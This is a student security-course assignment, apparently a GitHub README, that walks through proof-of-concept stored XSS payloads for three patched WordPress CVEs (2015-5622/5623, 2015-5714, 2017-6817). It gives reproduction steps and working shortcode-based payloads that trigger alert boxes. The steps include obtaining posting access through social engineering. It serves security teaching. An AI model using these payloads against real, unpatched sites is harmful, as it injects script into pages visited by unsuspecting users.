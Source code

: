# Cybersecurity University: Week 7 Assignment
Assignment: Identify and demonstrate POCs for at least 3 exploits affecting older versions of WordPress.

**Exploits demonstrated**:
* [CVE 2015-5622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622) / [CVE 2015-5623](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5623): Authenticated Stored Cross-Site Scripting (XSS)
* [CVE 2015-5714](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5714): Authenticated Shortcode Tags Cross-Site Scripting (XSS)
* [CVE 2017-6817](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6817): Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds

## #1: Authenticated Stored Cross-Site Scripting (XSS)

This exploit requires an attacker to have an account with posting capabilities (i.e. a minimum of Contributor level permissions). In this vulnerability, an attacker can insert arbitrary Javascript via a specially-crafted shortcode onto a page or a post.

### Recreating the Exploit
1. Gain access to an account with at least posting-level permissions via social engineering or another exploit. (Alternatively, if the site allows unauthenticated users to post via some special configuration, then an account is not needed.)
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor (not the Visual editor) to insert code similar to the following and post:

```
<a href="[caption code=">]</a><a title=" <Event-attribute-with-JS-code-here>  ">link</a>
```
which WP processes to:
```
<a href="</a><a title=" <Event-attribute-with-JS-code-here> ">link</a>
```

### Example
If an attacker puts in the following:
```
<a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">link</a>
```
WP processes this to become:
```
<a href="</a><a title=" onmouseover=alert('XSS!') ">link</a>
```
Here, the closing of the first `a` tag and the opening of the second `a` tag are caught up in the first `a` tag's `href` attribute, which means that the first `a` tag now has an `href` attribute **and** an `onmouseover` attribute (the latter of which executes our JS code). So, when the post/page is opened and a user mouses over this (fake) link, the browser shows an alert box with the word "XSS." Of course, one could replace this JS code with something far more malicious.

### Demonstration

The following video demonstrates this exploit: [link goes here]

### Other Details
* **CVEs**: 2015-5622 and 2015-5623
* **Type**: XSS
* **Affects**: WordPress <=4.2.2
* **Patched**: WordPress 4.2.3

## #2: Authenticated Shortcode Tags XSS

Like the last one, this vulnerability also requires the attacker to have an account with posting capabilities. It takes advantage of a shortfall in WordPress's KSES filtering (which filters out non-whitelisted HTML tags). 

### Recreating the Exploit
1. Gain access to an account with at least posting-level permissions via social engineering or another exploit. (Alternatively, if the site allows unauthenticated users to post via some special configuration, then an account is not needed.)
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor (not the Visual editor) to insert code similar to the following and post:

```
[caption width="1" caption='<a href="' ">]</a><a href=" <Event-attribute-with-JS-code-here> ">Click me!</a>
```
which WP processes to:
```
<figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" <Event-attribute-with-JS-code-here> ">Click me</a>
```

### Example
If an attacker puts in the following:
```
[caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("XSS!")' ">Click me!</a>
```
WP processes this to become:
```
<figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" onmouseover='alert("XSS!")' ">Click me</a>
```
Here, the closing of the first `a` tag, the `figcaption` tag, and the `figure` tag are all caught up in the first `a` tag's `href` attribute, which means that the first `a` tag now has an `href` attribute **and** an `onmouseover` attribute (the latter of which executes our JS code). (The `figcaption` tag that was opened at the beginning is left hanging.) Thus, like the last vulnerability, when the post/page is opened and a user mouses over this (fake) link, the browser shows an alert box with the word "XSS."

### Demonstration

The following video demonstrates this exploit: [link goes here]

### Other Details
* **CVE**: 2015-5714
* **Type**: XSS
* **Affects**: WordPress <=4.3
* **Patched**: WordPress 4.3.1

## #3: Authenticated Stored XSS in YouTube URL Embeds

Again, this vulnerability requires at least Contributor level privileges onto the site. Through this exploit, an attacker could take advantage of YouTube URL embeds to achieve a **stored/persistent** XSS attack that can affect any user who loads the compromised page.

### Recreating the Exploit
1. Gain access to an account with at least posting-level permissions via social engineering or another exploit. (Alternatively, if the site allows unauthenticated users to post via some special configuration, then an account is not needed.)
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor (not the Visual editor) to insert code similar to the following and post. **Here, we demonstrate the vulnerability through the use of an embed shortcode**:

```
[embed src='https://www.youtube.com/embed/12345\x3csvg <Event-attribute-with-JS-code-here>\x3e'][/embed]
```
which WP processes to:
```
<p>https://youtube.com/watch?v=12345<svg <Event-attribute-with-JS-code-here>></p>
```

### Example
If an attacker puts in the following:
```
[embed src='https://www.youtube.com/embed/12345\x3csvg onload=alert("XSS!")\x3e'][/embed]
```
WP processes this to become:
```
<p>https://youtube.com/watch?v=12345<svg onload=alert("XSS!")></p>
```
Here, the opening and closing `p` tags surround **2** elements: Some text (`https://youtube.com/watch?v=12345`) and an SVG container (`<svg onload=alert("XSS!")>`). The browser loads this empty SVG container whose only attribute is an `onload` event attribute (which is executed automatically when the page loads). Thus, as soon as the compromised post/page loads, the browser shows an alert box with the word "XSS."

### Demonstration

The following video demonstrates this exploit: [link goes here]

### Other Details
* **CVE**: 2017-6817
* **Type**: XSS
* **Affects**: WordPress <=4.7.2
* **Patched**: WordPress 4.7.3
